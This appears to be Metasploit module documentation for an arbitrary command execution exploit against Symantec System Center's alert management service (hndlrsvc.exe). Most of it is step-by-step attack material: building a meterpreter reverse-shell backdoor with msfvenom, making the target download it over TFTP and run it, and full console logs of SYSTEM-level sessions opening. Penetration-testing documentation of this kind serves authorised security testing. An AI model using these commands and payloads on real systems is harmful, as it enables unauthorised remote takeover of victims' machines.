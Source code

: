 ## Vulnerable Application

  This module exploits Symantec System Center's alert management system (hndlrsvc.exe) with an arbitrary command execution.  The payload is uploaded via TFTP
  and then executed on the system.
  This is part of Symantec AntiVirus Corporate Edition 8.0-10.1.7

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/windows/antivirus/ams_hndlrsvc`
  4. Do: `set rhost`
  5. Do: `exploit`
  6. You should get a shell.

## Options

  **CMD**

  Optional command line to run instead of attempting to directly inject a payload

  **RPORT**

  The port the service is running on.  Default is 38292.

## Scenarios

### Manual Upload and Execute

If the module doesn't work for a shell, it's possible to run the CMD twice to emulate the steps the module takes.

1. start atftpd: `atftpd --daemon --port=69 /tftpboot/`
2. create payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 lport=4444 -f exe -o /tftpboot/backdoor.exe`
3. start metasploit
4. start a multihandler
5. load the module: `use exploit/windows/antivirus/ams_hndlrsvc`
6. use ams: `set CMD 'tftp -i 1.1.1.1 GET backdoor.exe'`
7. run
8. use ams: `set cmd 'backdoor.exe'`
9. run

```
root@kali:~/metasploit-framework# ./msfconsole 

msf > ifconfig
[*] exec: ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 1.1.1.1  netmask 255.255.255.0  broadcast 192.168.3.255
        inet6 fe80::20c:29ff:fef9:62a1  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f9:1f:a1  txqueuelen 1000  (Ethernet)
        RX packets 70933  bytes 39287343 (37.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 11688  bytes 3788654 (3.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

msf > use exploit/multi/handler 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Starting the payload handler...
msf exploit(handler) > use exploit/windows/antivirus/ams_hndlrsvc 
msf exploit(ams_hndlrsvc) > set rhost 2.2.2.2
rhost => 2.2.2.2
msf exploit(ams_hndlrsvc) > set lport 9999
lport => 9999
msf exploit(ams_hndlrsvc) > set cmd 'tftp -i 1.1.1.1 GET backdoor.exe'
CMD => tftp -i 1.1.1.1 GET backdoor.exe
msf exploit(ams_hndlrsvc) > run

[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] 2.2.2.2:38292 - Executing command 'tftp -i 1.1.1.1 GET backdoor.exe'
[*] Exploit completed, but no session was created.
msf exploit(ams_hndlrsvc) > set cmd 'backdoor.exe'
cmd => backdoor.exe
msf exploit(ams_hndlrsvc) > run

[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] 2.2.2.2:38292 - Executing command 'backdoor.exe'
[*] Sending stage (957999 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:1038) at 2016-09-30 11:59:13 -0400
[*] Exploit completed, but no session was created.
msf exploit(ams_hndlrsvc) > sessions -l

Active sessions
===============

  Id  Type                   Information                 Connection
  --  ----                   -----------                 ----------
  1   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ WEBB  1.1.1.1:4444 -> 2.2.2.2:1038 (2.2.2.2)

msf exploit(ams_hndlrsvc) > sessions -v

Active sessions
===============

  Session ID: 1
        Type: meterpreter x86/win32
        Info: NT AUTHORITY\SYSTEM @ WEBB
      Tunnel: 1.1.1.1:4444 -> 2.2.2.2:1038 (2.2.2.2)
         Via: exploit/multi/handler
        UUID: 0a85ec1678bc8465/x86=1/windows=1/2016-09-30T15:59:12Z
   MachineID: 8b2889ec93a961f2cc3f2db4620def57
     CheckIn: 28s ago @ 2016-09-30 12:00:15 -0400
  Registered: No



msf exploit(ams_hndlrsvc) > 

```
  
### Using Standard Options
  
```
msf > use exploit/windows/antivirus/ams_hndlrsvc 
msf exploit(ams_hndlrsvc) > set rhost 2.2.2.2
rhost => 2.2.2.2
msf exploit(ams_hndlrsvc) > set lport 4445
lport => 4445
msf exploit(ams_hndlrsvc) > show options

Module options (exploit/windows/antivirus/ams_hndlrsvc):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD                     no        Execute this command instead of using command stager
   LHOST  1.1.1.1     no        The listen IP address from where the victim downloads the payload
   RHOST  2.2.2.2   yes       The target address
   RPORT  38292            yes       The target port


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     1.1.1.1     yes       The listen address
   LPORT     4445             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Universal


msf exploit(ams_hndlrsvc) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4445 
[*] 2.2.2.2:38292 - Sending request to 2.2.2.2:38292
[+] 2.2.2.2:38292 - tftp -i 1.1.1.1 GET OQTAVJBVWZH.exe
[*] 2.2.2.2:38292 - Attempting to execute the payload...
[+] 2.2.2.2:38292 - OQTAVJBVWZH.exe
[*] Sending stage (957999 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4445 -> 2.2.2.2:1041) at 2016-09-30 12:13:18 -0400

meterpreter > 

```
